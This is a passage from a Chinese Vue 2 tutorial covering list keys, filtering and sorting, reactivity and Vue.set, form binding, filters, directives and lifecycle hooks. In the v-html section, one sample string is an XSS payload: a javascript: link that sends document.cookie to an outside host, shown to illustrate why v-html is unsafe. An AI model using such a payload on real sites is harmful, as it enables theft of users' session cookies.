        { id: '003', name: '王五', age: 20 }
      ]
    },
    methods: {
      add() {
        const p = { id: '004', name: '老刘', age: 40 };
        // 最上方加入对象
        this.persons.unshift(p);
      }
    }
  });
</script>
```



**index 作为 key：**



**id 作为 key：**




<Callout type="success" title="面试题:reactvue 中的 key 有什么作用？（key 的内部原理）">

```txt
① 虚拟DOM中key的作用：key是虚拟DOM中对象的标识，当数据发生变化时，Vue会根据新数据生成新的虚拟DOM，随后Vue进行新虚拟DOM与旧虚拟DOM的差异比较，比较规则如下：
（1）旧虚拟DOM中找到了与新虚拟DOM相同的key
 a.若虚拟DOM中内容没变, 直接使用之前的真实DOM
 b.若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM
（2）旧虚拟DOM中未找到与新虚拟DOM相同的key，创建新的真实DOM，随后渲染到到页面

② 用index作为key可能会引发的问题
（1）若对数据进行逆序添加、逆序删除等破坏顺序操作，会产生没有必要的真实DOM更新 ==> 界面效果没问题，但效率低
（2）若结构中还包含输入类的DOM：会产生错误DOM更新 ==> 界面有问题

③ 开发中如何选择key？
（1）最好使用每条数据的唯一标识作为key，比如 id、手机号、身份证号、学号等唯一值
（2）如果不存在对数据的逆序添加、逆序删除等破坏顺序的操作，仅用于渲染列表，使用index作为key是没有问题的
```

</Callout>


### 列表过滤 [#列表过滤]

```vue 
<div id="root">
  <h2>人员列表</h2>
  <input type="text" placeholder="请输入名字" v-model="keyWord">
  <ul>
    <li v-for="(p,index) of filPersons" :key="p.id">
      {{ p.name }}-{{ p.age }}-{{ p.sex }}
    </li>
  </ul>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;
  // 用 watch 实现
  /**
  new Vue({
    el: '#root',
    data: {
      keyWord: '',
      persons: [
        { id: '001', name: '马冬梅', age: 19, sex: '女' },
        { id: '002', name: '周冬雨', age: 20, sex: '女' },
        { id: '003', name: '周杰伦', age: 21, sex: '男' },
        { id: '004', name: '温兆伦', age: 22, sex: '男' }
      ],
      filPersons: []
    },
    watch: {
      keyWord: {
        immediate: true,
        handler(val) {
          this.filPersons = this.persons.filter((p) => {
            return p.name.indexOf(val) !== -1
          })
        }
      }
    }
  }) 
  */

  // 用 computed 实现
  new Vue({
    el: '#root',
    data: {
      keyWord: '',
      persons: [
        { id: '001', name: '马冬梅', age: 19, sex: '女' },
        { id: '002', name: '周冬雨', age: 20, sex: '女' },
        { id: '003', name: '周杰伦', age: 21, sex: '男' },
        { id: '004', name: '温兆伦', age: 22, sex: '男' }
      ]
    },
    computed: {
      filPersons() {
        return this.persons.filter(p => {
          return p.name.indexOf(this.keyWord) !== -1;
        });
      }
    }
  });
</script>
```

### 列表排序 [#列表排序]

```vue 
<div id="root">
  <h2>人员列表</h2>
  <input type="text" placeholder="请输入名字" v-model="keyWord">
  <button @click="sortType = 2">年龄升序</button>
  <button @click="sortType = 1">年龄降序</button>
  <button @click="sortType = 0">原顺序</button>
  <ul>
    <li v-for="(p,index) of filPersons" :key="p.id">
      {{p.name}}-{{p.age}}-{{p.sex}}
      <input type="text">
    </li>
  </ul>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;
  new Vue({
    el: '#root',
    data: {
      keyWord: '',
      sortType: 0, // 0原顺序 1降序 2升序
      persons: [
        { id: '001', name: '马冬梅', age: 30, sex: '女' },
        { id: '002', name: '周冬雨', age: 31, sex: '女' },
        { id: '003', name: '周杰伦', age: 18, sex: '男' },
        { id: '004', name: '温兆伦', age: 19, sex: '男' }
      ]
    },
    computed: {
      filPersons() {
        const arr = this.persons.filter(p => {
          return p.name.indexOf(this.keyWord) !== -1;
        });
        //判断一下是否需要排序
        if (this.sortType) {
          arr.sort((p1, p2) => {
            return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age;
          });
        }
        return arr;
      }
    }
  });
</script>
```



### Vue 数据监视 [#vue-数据监视]

**① 更新时的一个问题**：

```vue 
<div id="root">
  <h2>人员列表</h2>
  <button @click="updateMei">更新马冬梅的信息</button>
  <ul>
    <li v-for="(p,index) of persons" :key="p.id">
      {{p.name}}-{{p.age}}-{{p.sex}}
    </li>
  </ul>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;

  const vm = new Vue({
    el: '#root',
    data: {
      persons: [
        { id: '001', name: '马冬梅', age: 30, sex: '女' },
        { id: '002', name: '周冬雨', age: 31, sex: '女' },
        { id: '003', name: '周杰伦', age: 18, sex: '男' },
        { id: '004', name: '温兆伦', age: 19, sex: '男' }
      ]
    },
    methods: {
      updateMei() {
        // this.persons[0].name = '马老师' //奏效
        // this.persons[0].age = 50   //奏效
        // this.persons[0].sex = '男'  //奏效
        // this.persons[0] = {id:'001',name:'马老师',age:50,sex:'男'} //不奏效
        this.persons.splice(0, 1, { id: '001', name: '马老师', age: 50, sex: '男' });
      }
    }
  });
</script>
```

> `this.persons[0] = {id:'001',name:'马老师',age:50,sex:'男'}`更改 data 数据，Vue 不监听，模板不改变

**② 模拟一个数据监测**：

```javascript 
let data = {
  name: '尚硅谷',
  address: '北京'
};

function Observer(obj) {
  // 汇总对象中所有的属性形成一个数组
  const keys = Object.keys(obj);
  // 遍历
  keys.forEach(k => {
    Object.defineProperty(this, k, {
      get() {
        return obj[k];
      },
      set(val) {
        console.log(`${k}被改了，我要去解析模板，生成虚拟DOM.....我要开始忙了`);
        obj[k] = val;
      }
    });
  });
}

// 创建一个监视的实例对象，用于监视data中属性的变化
const obs = new Observer(data);
console.log(obs);

// 准备一个vm实例对象
let vm = {};
vm._data = data = obs;
```

③ `Vue.set()`**方法**：

```vue 
<div id="root">
  <h1>学生信息</h1>
  <button @click="addSex">添加性别属性，默认值：男</button>
  <h2>姓名：{{student.name}}</h2>
  <h2 v-if="student.sex">性别：{{student.sex}}</h2>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;

  const vm = new Vue({
    el: '#root',
    data: {
      student: {
        name: '小明'
      }
    },
    methods: {
      addSex() {
        // Vue.set(this.student,'sex','男')
        this.$set(this.student, 'sex', '男');
      }
    }
  });
</script>
```

**直接增加属性**：



**调用 Vue API 增加属性**：



**增加非响应式属性(局限)**：



> **官网说明**：[全局 API-Vue.set](https://v2.cn.vuejs.org/v2/api/#Vue-set)
>
> 向响应式对象中添加一个 property，并确保这个新 property 同样是响应式的，且触发视图更新。它必须用于向响应式对象上添加新 property，因为 Vue 无法探测普通的新增 property；
>
> ```vue :no-line-numbers
> # 用法相同 vm.$set(vm.student,'sex','男'); Vue.set(this.student,'sex','男');
> ```

### 总结 [#总结]

<DocFrame src="/code/data_watch.html" title="交互演示" className="w-full rounded-lg border" height="540" />


<details>
<summary>⬆️ 示例代码</summary>

```html 
<!DOCTYPE html>
<html lang="zh">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>总结数据监视</title>
    <!-- 引入Vue -->
    <script src="https://cdn.jsdelivr.net/npm/vue@2.5.16/dist/vue.js"></script>
  </head>

  <body>
    <div id="root">
      <h2>学生信息</h2>
      <button style="margin: 0 5px 5px 0;" @click="student.age++">年龄+1岁</button>
      <button style="margin: 0 5px 5px 0;" @click="addSex">添加性别属性，默认值：男</button>
      <button style="margin: 0 5px 5px 0;" @click="student.sex = '未知'">修改性别</button>
      <button style="margin: 0 5px 5px 0;" @click="addFriend">在列表首位添加一个朋友</button> <br />
      <button style="margin: 0 5px 5px 0;" @click="updateFirstFriendName">修改第一个朋友的名字为:张三</button>
      <button style="margin: 0 5px 5px 0;" @click="addHobby">添加一个爱好</button>
      <button style="margin: 0 5px 5px 0;" @click="updateHobby">修改第一个爱好为:开车</button>
      <button style="margin: 0 5px 5px 0;" @click="removeSmoke">过滤掉爱好中的喝酒</button>

      <h3>姓名：{{student.name}}</h3>
      <h3>年龄：{{student.age}}</h3>
      <h3 v-if="student.sex">性别：{{student.sex}}</h3>
      <h3>爱好：</h3>
      <ul>
        <li v-for="(h,index) in student.hobby" :key="index">{{h}}</li>
      </ul>
      <h3>朋友们：</h3>
      <ul>
        <li v-for="(f,index) in student.friends" :key="index">{{f.name}}--{{f.age}}</li>
      </ul>
    </div>

    <script type="text/javascript">
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: '#root',
        data: {
          student: {
            name: '小明',
            age: 18,
            hobby: ['抽烟', '喝酒', '烫头'],
            friends: [
              { name: 'jerry', age: 35 },
              { name: 'tony', age: 36 }
            ]
          }
        },
        methods: {
          addSex() {
            // Vue.set(this.student,'sex','男')
            this.$set(this.student, 'sex', '男');
          },
          addFriend() {
            this.student.friends.unshift({ name: 'jack', age: 40 });
          },
          updateFirstFriendName() {
            this.student.friends[0].name = '张三';
          },
          addHobby() {
            this.student.hobby.push('学习');
          },
          updateHobby() {
            this.student.hobby.splice(0, 1, '开车');
          },
          removeSmoke() {
            this.student.hobby = this.student.hobby.filter(h => {
              return h !== '喝酒';
            });
          }
        }
      });
    </script>
  </body>
</html>
```

</details>


<Callout type="success" title="总结">

Vue 监视数据的原理：

1.Vue 会监视 data 中所有层次的数据；

2.如何监测**对象**中的数据？

通过 setter 实现监视，且要在 new Vue 时就传入要监测的数据

（1）对象中后追加的属性，Vue 默认不做响应式处理

（2）如需给后添加的属性做响应式，请使用如下 API

```js 
Vue.set(target, propertyName / index, value); // 方法一
vm.$set(target, propertyName / index, value); // 方法二
```

3.如何监测**数组**中的数据？

通过包裹数组更新元素的方法实现，本质就是做了两件事：

（1）调用原生对应的方法对数组进行更新

（2）重新解析模板，进而更新页面

4.在 vue 修改数组中的某个元素一定要用如下方法：

（1）使用这些 API：`push()`、`pop()`、`shift()`、`unshift()`、`splice()`、`sort()`、`reverse()`

（2）`Vue.set()` 或 `vm.$set()`，但是它们<mark>不能给 vm 或 vm 的根对象添加属性</mark>！

</Callout>


## 收集表单数据 [#收集表单数据]


<DocFrame src="/demos/vue-form.html" title="Vue 表单交互示例" className="w-full rounded-lg border" height="480" />

```vue 
<template>
  <div id="root">
    <form @submit.prevent="demo">
      账号：<input type="text" v-model.trim="userInfo.account" /> <br /><br />
      密码：<input type="password" v-model="userInfo.password" /> <br /><br />
      年龄：<input type="number" v-model.number="userInfo.age" /> <br /><br />
      性别： 男<input type="radio" name="sex" v-model="userInfo.sex" value="male" /> 女<input type="radio" name="sex" v-model="userInfo.sex" value="female" /> <br /><br />
      爱好： 学习<input type="checkbox" v-model="userInfo.hobby" value="study" /> 打游戏<input type="checkbox" v-model="userInfo.hobby" value="game" /> 吃饭<input
        type="checkbox"
        v-model="userInfo.hobby"
        value="eat" />
      <br /><br />
      所属校区
      <select v-model="userInfo.city">
        <option value="">请选择校区</option>
        <option value="beijing">北京</option>
        <option value="shanghai">上海</option>
        <option value="shenzhen">深圳</option>
        <option value="wuhan">成都</option>
      </select>
      <br /><br />
      其他信息：
      <textarea v-model.lazy="userInfo.other"></textarea> <br /><br />
      <input type="checkbox" v-model="userInfo.agree" />阅读并接受 <a href="https://www.yuque.com/cessstudy">《用户协议》</a><br /><br />
      <button>提交</button>
    </form>
  </div>
</template>
<script>
  export default {
    data() {
      return {
        userInfo: {
          account: '',
          password: '',
          age: 18,
          sex: 'female',
          hobby: [],
          city: 'beijing',
          other: '',
          agree: ''
        }
      };
    },
    methods: {
      demo() {
        console.log(JSON.stringify(this.userInfo));
        alert(JSON.stringify(this.userInfo));
      }
    }
  };
</script>
```

```json
{
  "jsfiddle": false,
  "codepen": false
}
```


<Callout type="success" title="收集表单数据">

1）若`<input type="text"/>`，则`v-model`收集的是`value`值，用户输入的就是`value`值；

2）若`<input type="radio"/>`，则`v-model`收集的是`value`值，且要给标签配置`value`值；

3）若`<input type="checkbox"/>`：

① 没有配置 input 的 value 属性，那么收集的是 checked（勾选 or 未勾选 | 布尔值 ）  
 ② 配置 input 的 value 属性，若 v-model 的初始值是<mark>非数组</mark>，那么收集的就是 checked（勾选 or 未勾选 | 布尔值 ）；若 v-model 的初始值是<mark>数组</mark>，那么收集的就是 value 组成的数组

> **备注**：v-model 的三个修饰符（**lazy：失去焦点再收集数据** | **number：输入字符串转为有效的数字** | **trim：输入首尾空格过滤**）
> :::

## 过滤器 [#过滤器]

**定义**：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）

**语法**：

(1)注册过滤器：`Vue.filter(name, callback)`(全局过滤器) 或 `new Vue { filters:{} }`(局部过滤器)

(2)使用过滤器：`{{ xxx | 过滤器名}}` 或 `v-bind:属性 = "xxx | 过滤器名"`


<Callout type="success" title="备注">

① 过滤器也可以接受额外参数、多个过滤器也可以串联  
② <mark>并没有改变原本的数据，是产生新的对应的数据</mark>

</Callout>


<details>
<summary>示例代码</summary>

```html 
<!DOCTYPE html>
<html lang="zh">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>过滤器</title>
    <!-- 引入Vue -->
    <script src="https://cdn.jsdelivr.net/npm/vue@2.5.16/dist/vue.js"></script>
    <script src="https://cdn.bootcdn.net/ajax/libs/dayjs/1.10.6/dayjs.min.js"></script>
  </head>

  <body>
    <div id="root">
      <h2>时间</h2>
      <h3>当前时间戳：{{time}}</h3>
      <h3>转换后时间：{{time | timeFormater()}}</h3>
      <h3>转换后时间：{{time | timeFormater('YYYY-MM-DD HH:mm:ss')}}</h3>
      <h3>截取年月日：{{time | timeFormater() | mySlice}}</h3>
      <h3 :x="time | mySlice">Vue</h3>
    </div>

    <script type="text/javascript">
      Vue.config.productionTip = false;
      // 全局过滤器
      Vue.filter('mySlice', function (value) {
        return value.toString().slice(0, 4);
      });
      new Vue({
        el: '#root',
        data: {
          time: 1626750147900
        },
        // 局部过滤器
        filters: {
          timeFormater(value, str = 'YYYY年MM月DD日 HH:mm:ss') {
            return dayjs(value).format(str);
          }
        }
      });
    </script>
  </body>
</html>
```

</details>




## 内置及自定义指令 [#内置及自定义指令]

**回顾**：

| 指令    | 功能                               |
| ------- | ---------------------------------- |
| v-bind  | 单向绑定解析表达式，可简写为`:xxx` |
| v-model | 双向数据绑定                       |
| v-for   | 遍历数组、对象、字符串             |
| v-on    | 绑定事件监听，可简写为`@`          |
| v-if    | 条件渲染（动态控制节点是否存在）   |
| v-else  | 条件渲染（动态控制节点是否存在）   |
| v-show  | 条件渲染（动态控制节点是否展示）   |

### v-text 指令 [#v-text-指令]

**作用**：向其所在的节点中渲染文本内容

> 与插值语法的区别：`v-text`会替换掉节点中的内容(例如:`<div v-text="你好">此处内容会被替换</div>`)，而`{{xxx}}`则不会

```html  
<div id="root">
  <div>你好，{{name}}</div>
  <div v-text="name"></div>
  <div v-text="str"></div>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;
  new Vue({
    el: '#root',
    data: {
      name: '好好学习',
      str: '<h3>你好啊！</h3>'
    }
  });
</script>
```



### v-html 指令 [#v-html-指令]

**作用**：向指定节点中渲染包含`html`结构的内容

> 与插值语法的区别：`v-html`会替换掉节点中所有的内容，`{{xxx}}`则不会，并且`v-html`可以识别`html`结构；但是需要注意：<mark>① 在网站上动态渲染任意 html 是非常危险的，容易导致 XSS 攻击；② 一定要在可信的内容上使用`v-html`，永远不要用在用户提交的内容上；</mark>

```html  
<div id="root">
  <div>你好，{{name}}</div>
  <div v-html="name"></div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;
  new Vue({
    el: '#root',
    data: {
      name: '好好学习',
      str: '<h3>你好啊！</h3>',
      str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
    }
  });
</script>
```



### v-cloak 指令 [#v-cloak-指令]

```html  
<style>
  [v-cloak] {
    display: none;
  }
</style>

<div id="root">
  <h2 v-cloak>{{ name }}</h2>
</div>

// 够延迟5秒收到vue.js
<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>

<script type="text/javascript">
  console.log(1);
  Vue.config.productionTip = false;
  new Vue({
    el: '#root',
    data: { name: 'cess' }
  });
</script>
```

> ① 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉`v-cloak`属性
>
> ② 使用 css 配合`v-cloak`可以解决网速慢时页面展示出`{{xxx}}`的问题

### v-once 指令 [#v-once-指令]

```html  
<div id="root">
  <h2 v-once>初始化的n值是: {{n}}</h2>
  <h2>当前的n值是: {{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;
  new Vue({ el: '#root', data: { n: 1 } });
</script>
```



> ① `v-once`所在节点在初次动态渲染后，就视为静态内容了
>
> ② 以后数据的改变不会引起`v-once`所在结构的更新，可以用于优化性能

### v-pre 指令 [#v-pre-指令]

```html  
<div id="root">
  <h2 v-pre>初始化的n值是: {{n}}</h2>
  <h2 v-pre>当前的n值是: {{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;
  new Vue({ el: '#root', data: { n: 1 } });
</script>
```



> ① 跳过 v-pre 所在节点的编译过程
>
> ② 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译

### 自定义指令 [#自定义指令]

**定义语法**：

（1）局部指令

```js 
// 对象式
new Vue({
  directives: {
    指令名: 配置对象
  }
});

// 函数式
new Vue({
  directives: {
    指令名: 回调函数
  }
});
```

（2）全局指令

```js 
// 对象式
Vue.directive(指令名, 配置对象);
/* 举例 */
Vue.directive('big', function (element, binding) {
  element.innerText = binding.value * 10;
});

// 函数式
Vue.directive(指令名, 回调函数);
/* 举例 */
Vue.directive('fbind', {
  // 指令与元素成功绑定时（一上来）
  bind(element, binding) {
    // element就是DOM元素，binding就是要绑定的
    element.value = binding.value;
  },
  // 指令所在元素被插入页面时
  inserted(element, binding) {
    element.focus();
  },
  // 指令所在的模板被重新解析时
  update(element, binding) {
    element.value = binding.value;
  }
});
```


<Callout type="success" title="配置对象中常用的 3 个回调函数">

`bind(element, binding)`：指令与元素成功绑定时调用

`inserted(element, binding)`：指令所在元素被插入页面时调用

`update(element, binding)`：指令所在模板结构被重新解析时调用

<mark>注意</mark>：

（1）指令定义时不加`v-`，但使用时要加`v-`

（2）指令名如果是多个单词，要使用 kebab-case 命名方式，不要用 camelCase 命名

</Callout>


<details>
<summary>示例代码</summary>

```html 
<title>自定义指令</title>
<script src="https://cdn.jsdelivr.net/npm/vue@2.5.16/dist/vue.js"></script>

<div id="root">
  <h2>{{ name }}</h2>
  <h2>当前的n值是：<span v-text="n"></span> </h2>
  <!-- <h2>放大10倍后的n值是：<span v-big-number="n"></span> </h2> -->
  <h2>放大10倍后的n值是：<span v-big="n"></span> </h2>
  <button @click="n++">点我n+1</button>
  <hr />
  <input type="text" v-fbind:value="n" />
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;

  // 定义全局指令
  /* Vue.directive('fbind',{
  // 指令与元素成功绑定时（一上来）
  bind(element,binding){
   element.value = binding.value
  },
  // 指令所在元素被插入页面时
  inserted(element,binding){
   element.focus()
  },
  // 指令所在的模板被重新解析时
  update(element,binding){
   element.value = binding.value
  }
 }) */

  new Vue({
    el: '#root',
    data: {
      name: '尚硅谷',
      n: 1
    },
    directives: {
      // big函数何时会被调用？
      // 1.指令与元素成功绑定时（一上来） 2.指令所在的模板被重新解析时
      /* 'big-number'(element,binding){
    // console.log('big')
    element.innerText = binding.value * 10
   }, */
      big(element, binding) {
        console.log('big', this); // 🔴注意此处的 this 是 window
        // console.log('big')
        element.innerText = binding.value * 10;
      },
      fbind: {
        // 指令与元素成功绑定时（一上来）
        bind(element, binding) {
          element.value = binding.value;
        },
        // 指令所在元素被插入页面时
        inserted(element, binding) {
          element.focus();
        },
        // 指令所在的模板被重新解析时
        update(element, binding) {
          element.value = binding.value;
        }
      }
    }
  });
</script>
```

</details>


## 生命周期 [#生命周期]


<Callout type="success" title="提示">

&#8195;&#8195;生命周期又称生命周期回调函数、生命周期函数、生命周期钩子，它是 Vue 在关键时刻帮我们调用的一些特殊名称的函数；生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的，生命周期函数中的 this 指向是<mark>vm</mark>或<mark>组件实例对象</mark>。

**常用的生命周期钩子**：

`mounted`:发送 ajax 请求、启动定时器、绑定自定义事件、订阅消息等[初始化操作]

`beforeDestroy`:清除定时器、解绑自定义事件、取消订阅消息等[收尾工作]

**关于销毁 Vue 实例**：

（1）销毁后借助 Vue 开发者工具看不到任何信息

（2）销毁后自定义事件会失效，但原生 DOM 事件依然有效（vue 从 2.7.0 版本以后，执行 this.$distory()后发现原生 DOM 失效，点击控制台无响应）

（3）一般不会在 beforeDestroy 操作数据，因为即便操作数据，也不会再触发更新流程了

</Callout>

